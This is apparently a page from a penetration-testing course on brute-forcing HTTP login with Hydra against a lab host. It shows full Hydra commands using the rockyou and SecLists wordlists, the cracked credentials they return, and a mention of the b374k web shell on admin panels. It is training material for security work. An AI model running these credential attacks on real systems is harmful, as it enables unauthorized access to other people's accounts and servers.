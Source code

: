 ```shell-session
AbdulrahmanTamim@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

[DATA] max 16 tasks per 1 server, overall 16 tasks, 243854766 login tries (l:17/p:14344398), ~15240923 tries per task
[DATA] attacking http-get://178.35.49.134:32901/
[STATUS] 9105.00 tries/min, 9105 tries in 00:01h, 243845661 to do in 446:22h, 16 active

<...SNIP...>
[32901][http-get] host: 178.35.49.134   login: thomas   password: thomas1

[STATUS] attack finished for SERVER_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

We see that we can still find the same working pair, but in this case, it took much longer to find them, taking nearly 30 minutes to do so. This is because while default passwords are commonly used together, they clearly are not among the top when it comes to individual wordlists. So, either the username or the password is buried deep into our wordlist, taking much longer to reach.

***

### Username Brute Force

If we were to only brute force the username or password, we could assign a static username or password with the same flag but lowercase. For example, we can brute force passwords for the `test` user by adding `-l test`, and then adding a password word list with `-P rockyou.txt`.

Since we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
AbdulrahmanTamim@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking http-get://178.35.49.134:32901/

[32901][http-get] host: 178.35.49.134   login: abbas   password: amormio
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```



## Hydra Modules

***

Since we found a login form on the webserver for administrators during our penetration testing engagement, it is a very interesting component to which we should try to gain access without generating much network traffic. Finally, with the admin panels, we can manage servers, their services, and configurations. Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly.
